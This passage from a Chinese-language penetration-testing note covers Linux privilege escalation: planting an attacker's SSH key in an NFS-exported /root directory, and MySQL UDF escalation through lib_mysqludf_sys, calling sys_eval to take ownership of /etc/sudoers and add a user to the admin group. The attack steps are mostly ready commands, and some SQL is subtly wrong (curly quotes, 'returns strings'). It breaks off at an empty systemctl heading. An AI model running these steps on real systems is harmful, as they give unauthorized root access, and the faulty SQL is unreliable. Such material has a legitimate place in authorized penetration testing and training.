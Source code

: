 但是需要重启物理机，重启物理机后

```
showmount -e ip 
```

可以发现/root目录已经被共享

可以将攻击机的公钥写入/root/.ssh/authorized_keys

<font color=red>**重点：要将authorized_keys写入当前目录下的.ssh**</font>

然后使用攻击机的私钥进行登录，就可以无需root密码登录root用户

## mysql

### UDF提权

**udf就是用户自制的函数**

mysql提权获取到的权限大小跟运行mysql所在服务器登录的账号的权限相关，如操作系统以普通用户登录的并启动mysql，经udf提权后也只能获取到系统的普通用户权限。而使用管理员登录操作系统运行mysql，提权后获取的权限则为系统管理员权限。

#### 创建函数

```
create function sys_eval returns strings soname ‘lib_mysqludf_sys.so’;

or

create function sys_eval returns strings soname ‘lib_mysqludf_sys_64.so’;
```

#### 查看udf表

```
SELECT * FROM mysql.func;
可以查看有哪些udf函数
```

### 利用函数提权

sys_eval，执行任意系统命令，并将输出返回。

sys_exec，执行任意系统命令，并将退出码返回（无命令执行结果回显）。

```
select sys_eval('chown -R john:john /etc/sudoers');

然后再sudoers中添加john用户的权限
```

```
将john用户添加到管理员组
select sys_eval('usermod -a -G admin john');
```

## systemctl提权

